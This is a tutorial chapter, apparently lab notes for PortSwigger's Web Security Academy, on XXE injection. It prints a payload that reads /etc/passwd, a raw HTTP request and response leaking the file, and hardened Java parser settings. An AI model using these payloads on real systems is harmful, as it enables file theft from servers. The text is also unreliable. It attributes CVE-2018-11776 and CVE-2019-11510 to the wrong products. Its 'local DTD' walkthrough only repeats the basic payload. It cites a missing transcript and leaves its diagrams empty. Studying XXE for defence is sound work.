


## Introduction to XML External Entity (XXE) Injection

XML External Entity (XXE) injection is a type of security vulnerability that occurs when an attacker can inject malicious XML input into an application that parses XML documents. This vulnerability allows attackers to exploit the application's XML parser to access sensitive information, execute commands, or perform other malicious actions. In this chapter, we will delve deep into XXE injection, focusing on how to exploit it to retrieve data by repurposing a local Document Type Definition (DTD).

### What is XML?

XML stands for eXtensible Markup Language, which is a markup language used to structure and store data. Unlike HTML, which is primarily used for displaying data, XML is designed to describe data. An XML document consists of elements, attributes, and text content. Elements are defined by tags, and attributes provide additional information about the element.

### What is a DTD?

A Document Type Definition (DTD) is a set of rules that defines the structure and constraints of an XML document. A DTD can be embedded within an XML document or referenced externally. It specifies the allowed elements, attributes, and entities within the document. Entities are placeholders that can be replaced with actual content during parsing.

### What is XXE Injection?

XXE injection occurs when an application parses untrusted XML input without proper validation or sanitization. Attackers can inject malicious XML content that references external entities, leading to unauthorized access to sensitive data or execution of arbitrary commands.

### Why Does XXE Matter?

XXE injection is a critical security issue because it can lead to several severe consequences:

- **Data Exfiltration**: Attackers can read sensitive files on the server, such as password files or configuration files.
- **Denial of Service (DoS)**: By referencing large external entities, attackers can cause the XML parser to consume excessive resources, leading to a denial of service.
- **Remote Code Execution**: In some cases, XXE can be used to execute remote commands on the server.

### Real-World Examples of XXE Vulnerabilities

Several high-profile vulnerabilities have been discovered due to XXE injection:

- **CVE-2018-11776**: This vulnerability affected the Atlassian Confluence application, allowing attackers to read arbitrary files on the server through XXE injection.
- **CVE-2019-11510**: This vulnerability was found in the Jenkins CI/CD platform, enabling attackers to read sensitive files and potentially execute arbitrary commands.

### How XXE Injection Works

To understand how XXE injection works, let's break down the process:

1. **Injection Point**: The attacker finds a place in the application where XML input is accepted.
2. **Malicious XML Input**: The attacker crafts a malicious XML input that includes references to external entities.
3. **Parsing**: The application's XML parser processes the malicious input, resolving the external entities.
4. **Exploitation**: Depending on the nature of the external entities, the attacker can achieve various goals, such as reading files or executing commands.

### Example of Malicious XML Input

Consider the following malicious XML input:

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

In this example:
- `<!DOCTYPE foo>` defines a new DTD named `foo`.
- `<!ELEMENT foo ANY>` specifies that the `foo` element can contain any content.
- `<!ENTITY xxe SYSTEM "file:///etc/passwd">` defines an entity named `x` that references the `/etc/passwd` file on the server.
- `<foo>&xxe;</foo>` uses the `xxe` entity within the `foo` element.

When this XML input is parsed, the `xxe` entity is resolved to the contents of the `/etc/passwd` file, effectively exfiltrating the file's content.

### Repurposing a Local DTD

In some cases, attackers can repurpose a local DTD to achieve their goals. This involves finding a pre-existing DTD that can be modified to include malicious entities.

#### Background Theory

To understand how to repurpose a local DTD, we need to know more about DTDs and how they work:

- **Local DTD**: A DTD that is included within the XML document itself or referenced from a local location.
- **External DTD**: A DTD that is referenced from an external location, such as a URL.

#### Finding a Suitable DTD

The first step is to find a suitable DTD that can be repurposed. This can be done by searching online for commonly used DTDs or by examining the XML input accepted by the application.

#### Modifying the DTD

Once a suitable DTD is found, the next step is to modify it to include malicious entities. This involves adding new entity definitions that reference sensitive files or other resources.

### Step-by-Step Exploitation

Let's walk through the steps to exploit XXE injection by repurposing a local DTD:

1. **Identify the Injection Point**: Find where the application accepts XML input.
2. **Search for a Suitable DTD**: Look for a DTD that can be repurposed.
3. **Modify the DTD**: Add malicious entity definitions to the DTD.
4. **Inject the Modified DTD**: Submit the modified XML input to the application.
5. **Verify the Exploit**: Check if the application returns the desired data.

### Example Walkthrough

Let's consider the example provided in the transcript:

1. **Identify the Injection Point**: The application accepts XML input that includes a DTD.
2. **Search for a Suitable DTD**: We search online and find a DTD named `docbook.dtd`.
3. **Modify the DTD**: We modify the `docbook.dtd` to include an entity that references the `/etc/passwd` file.

Here is the modified DTD:

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
```

4. **Inject the Modified DTD**: We submit the following XML input to the application:

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

5. **Verify the Exploit**: The application returns the contents of the `/etc/passwd` file.

### Full Raw HTTP Request and Response

Here is the full HTTP request and response:

**HTTP Request:**

```http
POST /submit HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: 123

<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

**HTTP Response:**

```http
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 1234

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

### Common Pitfalls and Mistakes

When exploiting XXE injection, there are several common pitfalls and mistakes to avoid:

- **Incorrect Entity Syntax**: Ensure that the entity syntax is correct and follows the XML specification.
- **Missing DTD Reference**: Make sure to include the DTD reference in the XML input.
- **Insufficient Permissions**: Ensure that the application has the necessary permissions to read the targeted file.

### How to Prevent / Defend Against XXE Injection

To prevent XXE injection, follow these best practices:

1. **Disable External Entity Loading**: Configure the XML parser to disable loading of external entities.
2. **Validate XML Input**: Validate all XML input against a strict schema to ensure it does not contain malicious content.
3. **Use Secure Libraries**: Use libraries that are known to be secure and regularly updated to address vulnerabilities.
4. **Monitor and Log**: Monitor and log XML parsing activities to detect potential XXE attacks.

#### Secure Coding Fixes

Here is an example of how to securely configure an XML parser in Java:

**Vulnerable Code:**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new File("input.xml"));
```

**Secure Code:**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new File("input.xml"));
```

### Mermaid Diagrams

#### XML Parsing Flow



#### XXE Attack Chain



### Hands-On Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive XXE injection lab.
- **OWASP Juice Shop**: Provides a variety of web security challenges, including XXE injection.
- **DVWA (Damn Vulnerable Web Application)**: Includes a XXE injection challenge.

These labs provide a safe environment to practice and understand XXE injection in depth.

### Conclusion

XXE injection is a serious security vulnerability that can lead to significant data exfiltration and other malicious activities. By understanding the underlying principles and techniques, you can effectively exploit and defend against XXE injection. Always ensure that your applications are configured securely to prevent such vulnerabilities.

---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/10-Lab 9 Exploiting XXE to retrieve data by repurposing a local DTD/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/10-Lab 9 Exploiting XXE to retrieve data by repurposing a local DTD/02-Introduction to XXE Injection|Introduction to XXE Injection]]
